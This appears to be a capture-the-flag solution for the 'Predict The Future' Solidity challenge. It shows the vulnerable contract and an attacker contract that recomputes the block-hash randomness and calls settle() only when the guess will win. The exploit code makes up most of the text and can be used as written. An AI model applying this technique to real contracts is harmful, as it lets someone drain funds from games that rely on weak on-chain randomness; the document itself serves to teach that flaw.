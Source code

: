 # Predict The Future

**HINT:** Create a contract to only submit will your guess when it is the right number. 
<details>
<summary>Answer</summary>
<p>

This contract will lock in your guess but will only settle when the ```answer = your guess ```(Tx will fail other wise)
```
pragma solidity ^0.4.21;

contract PredictTheFutureChallenge {
    address guesser;
    uint8 guess;
    uint256 settlementBlockNumber;

    function PredictTheFutureChallenge() public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function lockInGuess(uint8 n) public payable {
        require(guesser == 0);
        require(msg.value == 1 ether);

        guesser = msg.sender;
        guess = n;
        settlementBlockNumber = block.number + 1;
    }

    function settle() public {
        require(msg.sender == guesser);
        require(block.number > settlementBlockNumber);

        uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;

        guesser = 0;
        if (guess == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}
contract predictor {
    uint8 Lockedguess = 2;
    address PredictTheFutureContract = 0xE86C7a4C8B09A88c63860d948B5376D9990a8509;
    PredictTheFutureChallenge sendguess = PredictTheFutureChallenge(PredictTheFutureContract);
    
    function() payable public {
    }
    
    function destroy() public {
        selfdestruct(msg.sender);
    }
    
    function guessLock() public payable {
        sendguess.lockInGuess.value(msg.value)(Lockedguess);
    }
    
    function predict() public {
        require(Lockedguess == (uint8(keccak256(block.blockhash(block.number - 1), now)) % 10));
        sendguess.settle();
    }
}
```

</p>
</details>
